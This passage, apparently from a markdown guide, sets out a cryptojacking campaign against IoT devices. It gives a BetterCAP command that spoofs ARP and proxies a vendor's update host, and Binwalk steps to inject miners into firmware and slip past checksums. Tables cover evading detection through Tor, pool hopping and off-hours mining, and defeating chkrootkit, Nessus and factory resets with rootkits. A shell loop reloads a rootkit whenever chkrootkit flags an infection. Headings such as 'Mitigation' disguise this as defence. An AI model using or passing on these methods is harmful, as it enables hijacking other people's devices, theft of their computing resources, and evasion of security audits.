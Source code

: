 
### **3. Mitigation of Firmware Updates via MitM Attacks**  
**Tools and Setup**:  
- **BetterCAP/Ettercap**: Redirect devices to rogue update servers hosting modified firmware. Example **BetterCAP** command:  
  ```  
  bettercap -eval "set arp.spoof.attack true; set https.proxy.on true; https.proxy.hosts update.vendor.com; exit"  
  ```  
- **Rogue Firmware Server**: Host a fake update server with payloads embedded using **Binwalk**.  

**Firmware Repackaging**:  
1. Extract firmware with **Binwalk**:  
   ```bash  
   binwalk -e firmware.bin  
   ```  
2. Modify the extracted `init.d` scripts to include mining commands.  
3. Repackage and sign the firmware (if possible) to bypass checksums.  

---

### **4. Dynamic Obfuscation and Evasion Tactics**  
**Rotation Strategies**:  
| **Tactic**               | **Description**                                                                 | **Tool/Method**               |  
|--------------------------|---------------------------------------------------------------------------------|--------------------------------|  
| **IP Rotation**          | Rotate mining pool IPs using Tor/I2P circuits.                                  | Tor, I2P, DNS spoofing        |  
| **Pool Hopping**         | Switch between multiple pools to avoid detection.                              | Automated scripts, API keys    |  
| **Temporal Mining**      | Mine only during low-activity periods (e.g., overnight).                       | Cron jobs, systemd timers     |  

**Blockchain Evasion**:  
- Use **Stratum v2** (Monero) to reduce transaction signatures.  
- Split mining across multiple wallets to dilute transaction traces.  

---

### **5. Security Tool Resistance and Resilience Testing**  
**Countermeasures Against Audits**:  
| **Security Tool**         | **Countermeasure**                                                             | **Implementation**            |  
|--------------------------|---------------------------------------------------------------------------------|--------------------------------|  
| **chkrootkit**           | Hide processes/logs via rootkit hooks.                                          | Kernel modules, LD_PRELOAD    |  
| **Nessus**               | Block scan traffic or spoof clean firmware responses.                           | iptables, spoofed HTTP headers|  
| **Factory Reset Checks** | Re-infect via bootloader rootkits (e.g., **CVE-2021-31323**) post-reset.         | U-Boot patches, zero-day CVEs  |  

**Automated Testing Scripts**:  
- Run periodic checks to ensure mining payloads survive updates:  
  ```bash  
  # Example script to test against chkrootkit  
  while true; do  
    if chkrootkit | grep -q "INFECTED"; then  
      echo "Detected! Reapplying rootkit patches..."  
      /path/to/rootkit_loader.sh  
    fi  
    sleep 3600  
  done  
  ```  

---